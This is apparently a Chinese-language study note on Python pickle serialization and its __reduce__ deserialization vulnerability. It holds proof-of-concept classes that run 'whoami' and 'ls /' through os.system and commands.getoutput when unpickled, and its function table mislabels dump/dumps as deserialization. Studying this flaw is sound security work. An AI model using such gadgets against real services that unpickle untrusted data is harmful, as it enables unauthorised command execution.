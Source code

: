 ## python反序列化

### 基础知识

> python 中的pickle模块中的一些函数可以对数据序列化和反序列化

| 函数  | 说明                             |
| ----- | -------------------------------- |
| dumps | 对象反序列化为bytes对象          |
| dump  | 对象反序列化到文件对象，存入文件 |
| loads | 从bytes对象反序列化              |
| load  | 对象反序列化，从文件中读取数据   |

* `pickle.dump`(*obj*, *file*, *protocol=None*, ***, *fix_imports=True*, *buffer_callback=None*)

  `obj`------->对象

  `file`------>存入的文件，后缀名为`.pkl`,必须以二进制可写模式打开`wb`

  `protocol`-------->是pickle的版本，目前`Python 3.9.1`,范围为0到最高`pickle.HIGHEST_PROTOCOL`为5，默认的`DEFAULT_PROTOCOL`为4，指定一个负数就相当于指定 `HIGHEST_PROTOCOL`。

  `Pickler(file, protocol).dump(obj)` 实现的功能跟 `pickle.dump() `是一样的。

  ![](https://s3.bmp.ovh/imgs/2021/09/49d6eb1f65474575.png)

* `pickle.dumps`(*obj*, *protocol=None*, ***, *fix_imports=True*, *buffer_callback=None*)

  dumps与dump的区别就是dumps不需要写入到文件中，直接返回`bytes`对象

* `pickle.load`(*file*, ***, *fix_imports=True*, *encoding="ASCII"*, *errors="strict"*, *buffers=None*)

  `file`-------->以二进制读取`rb`

* `pickle.loads`(*bytes_object*, ***, *fix_imports=True*, *encoding="ASCII"*, *errors="strict"*, *buffers=None*)

```python
>>> import pickle
>>> import os
>>> pickle.dump(123,open('123.pkl','wb'))
>>> pickle.load(open('123.pkl','rb'))
123
>>> pickle.dumps(123)
b'\x80\x04K{.'
>>> pickle.loads(b'\x80\x04K{.')
123
```

可以序列化的对象

![](https://s3.bmp.ovh/imgs/2021/09/cb58203c3f3f83d7.png)

### pickle反序列化漏洞

造成python反序列化漏洞的主要原因是`__reduce()__`魔法函数，它会在反序列化结束的时候调用。

另外`pickle.loads`会解决`import`问题，对于未引入的`module`会自动尝试`import`。那么也就是说整个python标准库的代码执行、命令执行函数都可以进行使用。

> `object.__reduce__`()
>
> ![](https://s3.bmp.ovh/imgs/2021/09/a773ddf2bd36a140.png)

该函数需要返回一个元组，第一个参数为可调用对象，第二个是可调用对象的参数

> 在python2中只有内置类才有`__reduce__`方法，即用`class A(object)`声明的类，而`python3`中已经默认都是内置类了

`POC`

```python
import pickle
import os

class A(object):
    def __reduce__(self):
        cmd = "whoami" 
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = A()
    result1 = pickle.dumps(test)
    result2 = pickle.loads(result1)
    

➜ python 4.py
laptop-rhthcab2\l--n
```

> #os.system和os.popen 
> `os.system` 调用系统命令，完成后退出，返回结果是命令执行状态，一般是0
> `os.popen()` 无法读取程序执行的返回值
>
> 
>
> 这两个以`print`才能输出结果，如果是以`return`返回的就不会显示结果。
>
> `commands.getoutput()`这个函数来进行代替
>
> ```python
> class payload(object):
>  def __reduce__(self):
>      return (commands.getoutput,('ls /',))
> ```






more:

`PVM`、`详解`、`opcode`

(https://xz.aliyun.com/t/7436#toc-9)

